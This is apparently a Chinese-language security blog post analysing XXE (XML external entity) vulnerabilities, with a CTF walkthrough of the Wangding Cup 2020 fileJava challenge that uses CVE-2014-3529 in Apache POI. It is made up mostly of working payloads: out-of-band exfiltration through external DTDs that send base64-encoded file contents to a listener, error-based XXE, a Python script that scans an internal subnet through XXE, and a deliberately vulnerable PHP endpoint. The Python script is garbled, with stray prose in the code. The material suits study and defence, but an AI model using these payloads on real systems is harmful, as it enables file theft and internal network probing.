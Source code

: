 ```yaml
---
title: XXE漏洞分析及实战
published: 2020-05-10
description: ''
image: ''
tags: ['XXE', 'CTF']
category: '安全'
draft: false
lang: ''
---
```

 XXE漏洞分析及实战


<!-- ![XXE](./attachments/bafkreibpyhsxugvx3jngnspcbweekp5asywvwpv72nybem7naignkt5mz4.png) -->

 常用payload分析

好像大家都用这个测试代码

```php
<?php

libxml_disable_entity_loader(false);

$xmlfile = file_get_contents("php://input");
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
var_dump($creds);
```

使用XML发送数据：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY a SYSTEM "http://localhost:8887/aaaaa">
]>
<root>&a;</root>
```

但是我在尝试参数实体的时候似乎不能外带数据

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % a "http://localhost:8887/aaa">
%a;
]>
<root></root>
```

<!-- ![DraggedImage](./attachments/bafkreiarflv5okukw4dy22eev3qlaad7kzwx25ueejx3kl7narps3walkm.png) -->

嵌套也是不行的

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY % file SYSTEM "file:///flag.txt">  
	<!ENTITY % start "<!ENTITY &x25; send SYSTEM 'http://localhost:8887/?%file;'>">
	%start;
	%send;
]>
```

最常用的外带数据的方法：

在自己的vps上准备两个文件，我这里就就都在本机做的实验

本地的8001端口开一个web服务，

<!-- ![DraggedImage-1](./attachments/bafkreihrsrf3xj4fkewy5slilakd63vxusorh2dr2tmwyk6cs7nmaozfyq.png) -->


`local.xml` 文件内容：

```xml
<!ENTITY % start "<!ENTITY &x25; send SYSTEM 'http://localhost:8887/?%file;'>">
%start;
```

这个文件表示读取到数据之后发送给另一个8887端口，然后我们向受害者服务器发送数据，

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">  
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./flag.txt">
	%remote;
	%send;
]>
<message>1234</message>
```

然后就可以在8887端口接收到数据了

<!-- ![DraggedImage-2](./attachments/bafkreihkp5pbygyf7nk6yss2v25srqsvztx5343zfkiuxjce2o2it3p7yu.png) -->


换一种 `payload` 也行

DTD文件

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &37; send SYSTEM 'http://localhost:8887/p=%file;'>">
```

发送的 paylod

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">
%remote;%int;%send;
]>
```

 报错XXE

这个方法p牛其实早就说过了,通过三层嵌套的XML就可以达到报错

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ELEMENT message ANY>
	<!ENTITY % para1 SYSTEM "file:///flag">
	<!ENTITY % para '
		<!ENTITY &x25; para2 "<!ENTITY &x26;x25; error SYSTEM &x27;file:///&x25;para1;&x27;>">
		&x25;para2;
	'>
	%para;
]>
<message>10</message>
```


<!-- ![image](./attachments/bafkreidydytastdjupui3uto5mhvuhibr5kykafhiajnf5wxoboot7hn2a.png) -->


 XXE探测内网

```xml
import requests
import base64
Origtional XML that the server accepts

<xml>

    <stuff>user</stuff>

</xml>



def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://127.0.0.1/xml.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2]  a little split to get only the base64 encoded value
    print coded_string
   print base64.b64decode(coded_string)

for i in range(1, 255):
    try:
        i = str(i)
        ip = '192.168.1.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
      print "error"
continue
```

 实例分析

 网鼎杯2020 fileJava

用到的漏洞就是 `CVE20143529`

复现代码

```java
import org.apache.poi.EncryptedDocumentException;
import org.apache.poi.openxml4j.exceptions.InvalidFormatException;
import org.apache.poi.ss.usermodel.Sheet;
import org.apache.poi.ss.usermodel.Workbook;
import org.apache.poi.ss.usermodel.WorkbookFactory;
import java.io.FileInputStream;
import java.io.IOException;
public class CVE20143529 {
    public static void main(String[] args) throws IOException, EncryptedDocumentException, InvalidFormatException {
        Workbook wb1 = WorkbookFactory.create(new FileInputStream("test1.xlsx"));
        Sheet sheet = wb1.getSheetAt(0);
        System.out.println(sheet.getLastRowNum());
    }
}
```

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>pxyapache</groupId>
    <artifactId>pxypxy</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>org.apache.poi</groupId>
            <artifactId>poi-ooxml</artifactId>
            <version>3.10-FINAL</version>
        </dependency>
    </dependencies>

</project>
```

利用过程：

准备一个excel文件：

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">
%remote;%int;%send;
]>
```



<!-- ![image](./attachments/bafkreige33gaqt6gt3xpt4qvbkrsrr7pfts7jnckiaxtbwmotgr3kc5dda.png) -->

准备DTD文件

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &37; send SYSTEM 'http://localhost:8887/p=%file;'>">
```

会读取文件，然后将其发送到8887端口上


<!-- ![image](./attachments/bafkreiagmltdrids3l6nczwwokd3inj5tjnp7fhqjdmjizdy6dp4kums5y.png) -->


监听得到的flag


<!-- ![image](./attachments/bafkreie6sk6ylq4lvc7bnyvhikae2y2tgl5n6llh5wuc5w6ujv6hvwgm4i.png) -->


 参考

YouTube这个视频其实讲的不错：[https://youtu.be/gjm6VHZa\_8s?si=rMGJmuSI9XJNtt\_S](https://youtu.be/gjm6VHZa_8s?si=rMGJmuSI9XJNtt_S)

